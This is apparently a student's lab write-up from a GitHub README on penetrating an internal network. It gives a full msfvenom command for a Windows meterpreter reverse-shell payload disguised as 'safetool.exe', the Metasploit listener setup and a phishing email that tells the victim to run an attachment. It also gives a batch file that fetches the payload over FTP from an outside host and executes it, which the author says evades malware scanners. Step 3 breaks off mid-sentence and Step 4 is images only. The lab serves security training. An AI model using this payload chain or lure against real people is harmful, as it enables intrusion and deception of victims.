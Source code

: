 # Penetrating-an-Internal-Network


<h1>Phase 5</h1>


**<p style="font-size: 15px;">Step 1: Create a remote control payload.</p>**

I began this lab, as I have with many of the others, by elevating the Terminal window to use root privileges with the command "sudo su". Next, I went through the process of creating a new user, "adduser svcsupport". This new user account will be used as the credentials to download an exploit to the victim over FTP. Doing so will help to obfuscate, or hide, my identity if someone evaluates the malicious script. 

I then created a remote control payload with msfvenom, "msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 -f exe LHOST=203.0.113.66 LPORT=4444 -o /home/svcsupport/safetool.exe". Here is a breakdown of each part of the command, "-p" indicates the exploit to convert to shellcode, "--platform" sets the execution destination type (e.g., Windows), "-a" defines the platform architecture (e.g., x64), "-f" determines the output format (e.g., exe), "LHOST" sets the listening IP address for the receiving host, "LPORT" set the listening post number on the receiving host, and "-o" defines the output path and filename. 

Once the payload was created, I entered "ls -l /home/svcsupport" to confirm the existence of the exploit output file of safetool.exe. The file is displayed and is 7168 bytes in size. 

Next, I started the very secure FTP daemon with the command "service vsftpd start". Finally, I started the postgres with the command "service postgresql start". These services were previously downloaded to the lab and will be used to host the safetool.exe file, store the payload and deliver the exploit to the target system. 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7f19a4b1-fcea-4695-9a44-f6f076cc5d7a)

**<p style="font-size: 15px;">Step 2: Setup the listener.</p>**

The listener must be set up to receive the inbound connection before the victim can be tricked into running the exploit payload. I began this phase by launching Metasploit utilizing the command "msfconsole". 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/776669b2-337c-4d01-8876-66622f3405e6)

Next, I changed the MSF prompt to a handler for reverse shell payloads with the command "use exploit/multi/handler". As you can see, the following line shows (Using configured payload generic/shel_reverse_tcp). To show the configuration details of the handler I input "show options". As currently configured the LPORT is already set to 4444, the default listening port for metasploit. Additionally, there is not LHOST set and the payload is still set to the generic/shell_reverse_tcp. 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8291d92-cd56-40f7-b7ee-794163bd0e35)

Below, I used the commands "set payload windows/x64/meterpreter/reverse_tcp" and "set LHOST 203.0.113.66" to update the configurations to reflect the payload I will utilize and the host. I re-entered the "show options" command to reveal the updates I made. Once the correct configuration was input, I initiated the MSFConsole as the listener by entering "run". The MSFConsole is now listening on the host 203.0.113.66 on port 4444 for any connections.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/cc92f829-fd31-40ea-b41c-9d433a6a10aa)

**<p style="font-size: 15px;">Step 3: Socially engineer the victim.</p>**

To save time, this lab assumes that I have already crafted and sent a social engineering message to jaime@structureality.com with a batch file attachment, using the Social Engineering Toolkit (SET) as demonstrated in a previous lab. Later on I will create the batch file. 

In this step, I will operate as Jaime, the victim, who has been fooled by a social engineering email. The email had the following statement:

Dear Customer,

It has come to our attention that your accounts are outdated and need additional configuration to continue providing optimal services. Here is a tool that will automate the process of improving your configuration so you can continue to enjoy the full benefits of our services. 

Please run the attached file at your earliest convenience.

Note: The operation of the update may take considerable time. Minimize the Command Prompt window and continue using your system normally.  

Sincerely,
The Support Department 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7bf68f95-ffd8-459b-bd48-98c878ab8ef8)

To create the batch file, I opened the command prompt and entered "notepad c:\Users\jaime\Downloads\trythis.bat". This command opened Notepad and created a new file in the specified directory.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/735bbd9d-b7c4-4e4f-9556-e571d16902fa)

Notepad pops up, and I am asked if I would like to create the new file. I select, Yes.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/c15b5d52-9417-4c60-b72d-b8bc93f2a1fd)

I then typed the following lines of code into Notepad:

"C:\Program Files (x86)\WinSCP\winscp" /ini=nul /command "open ftp://svcsupport:Pa$$w0rd@203.0.113.66/ -hostkey=open" "get safetool.exe %userprofile%\Downloads\" "exit"

"%userprofile%\Downloads\safetool.exe"

These commands facilitate the download and execution of the exploit file on the victim's system. The strategic use of a basic batch file is effective in circumventing malware scanners that may otherwise detect and remove the exploit from an email.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/44a81139-5023-4440-aacb-15c752b6a1fe)

I saved the 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7e793e40-644a-4982-8ca9-2a57a5981999)


![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8b53073-7666-4ce2-afcc-84719bd5b36b)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/3e7ce2ef-4d3f-43ae-8664-30071b9b8dc4)

**<p style="font-size: 15px;">Step 4: Take advantage of the exploited victim.</p>**

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/37cf91b5-5adb-4ae0-a427-c2af5a0783bc)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/091b0a44-cf32-4b50-a513-c98ef0322f37)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/50cb209c-8fe3-47f9-9a40-aac8d3c066b8)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/2b2eca48-9dcb-43ed-a626-fd7e6f0dac6d)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/f36ea8ca-fe63-44d6-80a8-644b278b9e51)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/78074d05-e177-4390-93f0-4740ae567606)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/9791e984-f45c-467a-b426-0f82afda102f)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/cc638e30-4482-4326-8b09-dda42f94c4ad)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7a08a906-5ba2-4ebe-97d6-da5abc5b8732)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/8db7738a-717f-479a-8b39-eb0f1aba1d90)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/ed720de7-11ac-4953-9b90-672bcc506bac)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/ca7101f7-04b9-42e0-bc49-1d75240ed48f)







